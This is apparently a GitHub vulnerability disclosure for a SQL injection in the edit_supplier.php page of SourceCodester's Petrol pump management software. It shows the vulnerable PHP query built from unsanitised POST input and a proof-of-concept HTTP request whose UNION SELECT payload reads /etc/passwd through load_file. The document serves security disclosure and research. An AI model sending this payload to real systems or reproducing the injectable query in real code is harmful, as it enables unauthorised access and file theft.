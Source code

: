# SOURCECODESTER / Petrol pump management software - edit_supplier.php SQL Injection Auth Bypass

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>
> Russel James Avenido (https://github.com/lucishtml/lucishtml)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/edit_supplier.php

## Code
```php
  $stmt = $conn->prepare("SELECT * FROM `supplier` WHERE id='" . $_POST['id'] . "' ");
                                    $stmt->execute();
                                    $record = $stmt->fetchAll();
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/edit_supplier.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=1'+UNION+SELECT+1,load_file('/etc/passwd'),3,4,version(),6,7--+-
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/9b8fd8bf-9f6c-4a4b-acb5-6f962ba5b6cb)
